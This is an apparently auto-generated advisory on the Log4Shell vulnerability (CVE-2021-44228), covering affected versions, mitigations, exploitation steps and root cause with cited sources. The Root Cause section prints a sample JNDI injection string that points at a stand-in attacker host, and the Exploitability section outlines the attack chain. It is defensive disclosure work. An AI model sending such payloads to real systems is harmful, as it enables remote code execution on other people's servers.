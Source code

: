 ## Description

Apache Log4j in Apache Software Foundation Log4j versions prior to 2.15.0 is vulnerable due to insufficient input validation, specifically related to JNDI lookups [[5]](#引用) . This vulnerability allows an unauthenticated attacker to execute arbitrary code on a server via crafted log messages containing malicious data [[4]](#引用) . The vulnerability, known as Log4Shell, has been exploited extensively [[3]](#引用) , leading to widespread security incidents, particularly on public-facing servers [[11]](#引用) . Despite the critical nature of this flaw, many applications continue to operate on affected versions [[3]](#引用) , maintaining a significant risk for data breaches and unauthorized access across systems relying on the Log4j library [[2]](#引用) .

## Detailed Description

CVE-2021-44228, commonly known as Log4Shell, is a critical vulnerability found in the Apache Log4j 2 logging library, which is extensively utilized across various Java applications [[4]](#引用) . This vulnerability allows attackers to execute arbitrary code on a server by crafting malicious log messages that the Log4j component processes, taking advantage of the Java Naming and Directory Interface (JNDI) lookup features [[7]](#引用) . The flaw affects versions of Log4j from 2.0 to 2.15.0-rc1 [[1]](#引用) [[6]](#引用) . Attackers can exploit this vulnerability without requiring prior authentication or user interaction, which makes it particularly dangerous for internet-facing applications and services [[7]](#引用) . Once exploited, attackers can gain full control over the vulnerable system, enabling them to deploy further malicious software, conduct reconnaissance, or exfiltrate sensitive data [[11]](#引用) . The severity of Log4Shell has led to its inclusion as a top priority for organizations to address, with a CVSS score of 10, indicating critical risk [[5]](#引用) . Despite the patches that were released following its discovery in December 2021, a significant portion of systems (approximately 38% as of late 2023) remained vulnerable due to the continued use of affected Log4j versions [[3]](#引用) [[5]](#引用) . This vulnerability has been actively exploited in various cyber campaigns, notably by threat actors such as the North Korean APT group, Lazarus [[11]](#引用) . Their operations leverage this flaw to compromise vulnerable servers, particularly targeting publicly accessible systems like VMWare Horizon [[2]](#引用) . The ongoing exploitation of CVE-2021-44228 illustrates the persistent threats posed by vulnerabilities in widely adopted open-source components, underscoring the necessity for organizations to maintain rigorous patch management and security hygiene [[3]](#引用) .

## Affected Versions

- Component: Apache Log4j
    - Affected Versions: All versions before 2.15.0 [[10]](#引用) 
- Component: Apache Log4j2
    - Affected Versions: 2.0 – 2.15.0-rc1 [[1]](#引用) 
- Component: Log4j
    - Affected Versions: Versions prior to 2.15.0 (inclusive) [[11]](#引用) 

## Unaffected Versions

- Component: Apache Log4j2
    - Unaffected Versions: 2.16.0 and later [[1]](#引用) 
- Component: Log4j
    - Unaffected Versions: 2.17.0 [[3]](#引用) 


## Mitigations

- Regularly update systems to ensure all software is patched against known vulnerabilities, particularly CVE-2021-44228 [[8]](#引用) .
- Upgrade Apache Log4j2 to version 2.17.0 or higher [[6]](#引用) .
- Remove the JndiLookup class from the class path to mitigate JNDI injection issues [[6]](#引用) .
- Disable JNDI functionality in the Log4j2 configuration [[1]](#引用) .
- Implement input validation and sanitization to prevent processing of malicious data [[6]](#引用) .
- Maintain an inventory of applications that use vulnerable open-source libraries [[10]](#引用) .
- Monitor networks for unusual activity to detect exploitation attempts [[8]](#引用) .
- Utilize intrusion detection and prevention systems (IDS/IPS) to block potential exploits [[8]](#引用) [[3]](#引用) .
- Implement network segmentation to limit access to vulnerable services [[8]](#引用) [[3]](#引用) .
- Regularly scan for vulnerable versions of Log4j in applications [[3]](#引用) .
- Conduct regular audits to identify remaining instances of vulnerable Log4j code [[11]](#引用) .
- Establish firewall rules to restrict access to public-facing applications using Log4j [[11]](#引用) .

## Exploitability

CVE-2021-44228, widely known as Log4Shell, is a critical flaw in the Apache Log4j 2 library, specifically impacting versions from 2.0 to 2.15.0-rc1 [[10]](#引用) . The vulnerability arises from a JNDI injection issue, which allows attackers to send specially crafted data to the logging component of applications using Log4j [[1]](#引用) . When such data is logged, the library processes it in a way that may trigger remote code execution (RCE) on the vulnerable server [[6]](#引用) . To exploit this vulnerability, an attacker follows several steps: 1. Target Identification: The attacker first identifies servers that are publicly accessible and running vulnerable versions of Log4j [[10]](#引用) . 2. Payload Creation: The attacker crafts a malicious payload that typically includes a JNDI lookup string. This payload is designed to cause Log4j to fetch and execute code from a remote server controlled by the attacker [[1]](#引用) . 3. Send Malicious Input: The attacker triggers the logging mechanism in the application by sending the crafted payload as part of a log message (e.g., through HTTP headers or user input). This action can be as simple as including the payload in an input field that is logged by the application [[10]](#引用) . 4. Remote Code Execution: Upon receiving the malicious log message, the Log4j component interprets the payload, performs the lookup, and executes the code present in the attacker’s controlled server, granting the attacker RCE capabilities on the compromised system [[10]](#引用) [[6]](#引用) . 5. Post-Exploitation Activities: After gaining access, attackers typically conduct reconnaissance to assess the environment, deploy additional malware (such as remote access trojans like NineRAT) [[4]](#引用) , and establish persistence (e.g., creating new admin accounts or downloading credential harvesting tools) [[4]](#引用) . 6. Command-and-Control Operations: Utilizing command-and-control (C2) methods, such as Telegram for communications [[4]](#引用) , the attacker can manage the infected systems remotely, gather intelligence, and further exploit the network to deepen their access and control [[10]](#引用) [[1]](#引用) . The vulnerability's significant impact and ease of exploitation have led to widespread concern, prompting organizations to expedite patching and mitigation efforts [[10]](#引用) .

## Root Cause

The root cause of the CVE-2021-44228 vulnerability arises from two main parts: 

1. Improper validation of user-supplied input: The first part of the root cause is the direct logging of user input without any validation or sanitization. This allows for the possibility of malicious input being logged as part of the application’s logging mechanism. When the application logs user input without checking whether it contains harmful commands or data, such as JNDI references, it opens the door for executing unintended operations [[10]](#引用) . An example code snippet demonstrating this part from the vulnerable code can be seen in the `logUserInput` method:

```java
public void logUserInput(String userInput) {
    // Directly logging user input without validation
    logger.info("User input: " + userInput);
}
```
In this code, if an attacker inputs something like `${jndi:ldap://attacker.com/a}`, it will be logged and subsequently processed by the Log4j library, potentially leading to severe security implications [[4]](#引用) .

2. Unsafe interpolation of strings: The second part of the root cause is the handling of JNDI lookups without checking the resulting strings against a whitelist of acceptable protocols, hosts, and classes. The interpolation of user input strings, particularly in the context of JNDI lookups, means that certain commands can be executed outside the intended behavior [[3]](#引用) [[7]](#引用) . A relevant code snippet from the patch context that addresses this concern is in the `JndiManager` class:

```java
public synchronized <T> T lookup(final String name) throws NamingException {
    try {
        URI uri = new URI(name);
        if (uri.getScheme() != null) {
            if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                return null;
            }
            ...
        }
    } catch (URISyntaxException ex) {
        // This is OK.
    }
}
```
The failure to restrict JNDI lookups to specific, known, and safe protocols and classes exposes the application to external attacks that leverage these features [[5]](#引用) [[2]](#引用) . Without implementing checks on the protocol and the entity being accessed, malicious actors can redirect lookups to harmful external services, leading to unauthorized access and potential remote code execution [[9]](#引用) . Together, these factors illustrate how the combination of improper input validation and inadequate control over JNDI lookups creates a significant security risk within the application [[4]](#引用) .


## 引用

- [1]  https://mp.weixin.qq.com/s?src=11&timestamp=1698058895&ver=4852&signature=D4lbsrFvrwtVXl9Mbakz-RzczqMOQZKMQkQ4DOMRNaUWQd3*cdenHFM4SohtOZVGy9FkrfPY7Gc*y89NrdnMQRBt-B6QjWEQMr99h6jiJkdel51wo3Iyo2ccfc9pSSNE&new=1
- [2]  https://securityaffairs.com/155681/apt/operation-blacksmith-lazarus-log4j.html
- [3]  https://thehackernews.com/2023/12/lazarus-group-using-log4j-exploits-to.html
- [4]  https://go.theregister.com/feed/www.theregister.com/2023/12/11/lazarus_group_edang/
- [5]  https://www.darkreading.com/threat-intelligence/lazarus-group-still-juicing-log4shell-rats-written-d
- [6]  https://www.anquanke.com/post/id/290837
- [7]  https://www.securityweek.com/north-korean-hackers-developing-malware-in-dlang-programming-language/
- [8]  https://securelist.com/it-threat-evolution-q3-2023-non-mobile-statistics/111228/
- [9]  https://therecord.media/north-korean-hackers-using-log/
- [10]  https://www.beyondtrust.com/blog/entry/trick-or-threat
- [11]  https://therecord.media/north-korean-hackers-using-log

